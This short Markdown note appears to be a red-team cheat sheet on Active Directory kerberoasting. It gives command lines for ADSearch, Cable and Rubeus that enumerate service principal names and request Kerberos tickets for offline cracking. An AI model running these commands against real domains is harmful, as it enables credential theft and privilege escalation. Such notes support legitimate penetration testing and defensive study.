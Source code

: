 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - active-directory
  - kerberoasting
  - offensive-tools
  - windows
---
```

# Binaries

## 01 - [[ADSearch|ADSearch]]

```
C:\> .\ADSearch.exe [-d <domain>.<tld>] [-u <username> -p <password> -h <computername>] -S
```

## 02 - [[Cable|Cable]]

```
C:\> .\Cable.exe ldap --spns
```

## 03 - Rubeus

TODO: Provide more example use cases

```
C:\> Rubeus.exe kerberoast [/simple] /nowrap
```